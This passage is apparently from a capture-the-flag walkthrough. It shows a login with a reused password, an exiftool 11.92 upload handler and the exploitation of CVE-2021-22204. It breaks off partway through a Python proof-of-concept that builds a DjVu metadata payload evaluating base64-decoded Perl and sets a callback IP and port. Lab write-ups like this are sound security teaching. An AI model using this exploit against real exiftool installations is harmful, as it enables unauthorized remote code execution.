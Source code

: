 [_Click for full
image_](https://0xdfimages.gitlab.io/img/image-20210928144926612.png)

The same password for editor (“alpha!@#$%bravo”) work to get in:

[
![image-20210928145122084](https://0xdfimages.gitlab.io/img/image-20210928145122084.png)
](https://0xdfimages.gitlab.io/img/image-20210928145122084.png)

[_Click for full
image_](https://0xdfimages.gitlab.io/img/image-20210928145122084.png)

There’s a ton going on, but most of the buttons/links don’t actually do
anything.

On the profile page, there’s a link to upload a resume:

![image-20210928145329124](https://0xdfimages.gitlab.io/img/image-20210928145329124.png)

Clicking that button works, and allows me to select a file. The text at the
bottom says it accepts `.tiff`, `.jpeg`, and `.jpg` format.

On uploading an image, it seems to just load the same page with no indication
of success or failure. I went to Burp to see if it even submitted. The
response was a 302 back to the same page, but there was also some output in
it:

[![image-20210928145547953](https://0xdfimages.gitlab.io/img/image-20210928145547953.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20210928145547953.png)

It’s very clearly running `exiftool` (version 11.92) on the image.

### CVE-2021-22204

There’s a really [neat writeup](https://blog.convisoappsec.com/en/a-case-
study-on-cve-2021-22204-exiftool-rce/) on CVE-2021-22204, an RCE vulnerability
in `exiftool`. The issue is in how Exiftool tries to parse the DjVu filetype,
and how that can be inserted into an image like a JPG.

There’s a Perl POC in the post, but I went with [this Python
version](https://github.com/convisoappsec/CVE-2021-22204-exiftool). It needs
`apt install djvulibre-bin exiftool`.

The script is really simple:

    
    
    #!/bin/env python3    
        
    import base64    
    import subprocess    
        
    ip = '127.0.0.1'    
    port = '9090'    
        
    payload = b"(metadata \"\c${use MIME::Base64;eval(decode_base64('"    
        
        
